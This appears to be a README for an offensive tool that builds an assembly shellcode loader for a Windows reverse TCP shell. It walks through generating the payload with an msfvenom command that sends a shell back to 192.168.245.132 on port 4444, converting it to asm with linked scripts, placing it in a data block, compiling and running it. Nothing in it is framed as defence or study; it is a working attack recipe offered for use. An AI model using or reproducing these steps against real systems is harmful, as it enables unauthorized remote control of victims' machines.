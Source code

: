 # Assembler, Shellcode Loader (reverse TCP)

## 1. Create your payload

For example with : 

```msfvenom -p windows/x64/shell_reverse_tcp RHOST=192.168.245.132 LPORT=4444 -b '\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40' -f c ```

## 2. Convert your shellcode

Use this homemade [converter_1](./convert.sh) or [converter_2](./convert2.sh) to get your asm shellcode.


## 3. Put your shellcode in your .asm code

```
.data
  shellcode DB XXXh,XXXh,XXh,..
                ....
                ....
                ....
endshellcode DB 0
```

See this example of [ASM File](./example.asm).

## 4. Compile your ASM

On windows you can use this compiler [script](./compiler.bat)

## 5. Run

One example with a loader + reverse shell code : [here](./reverse.asm)
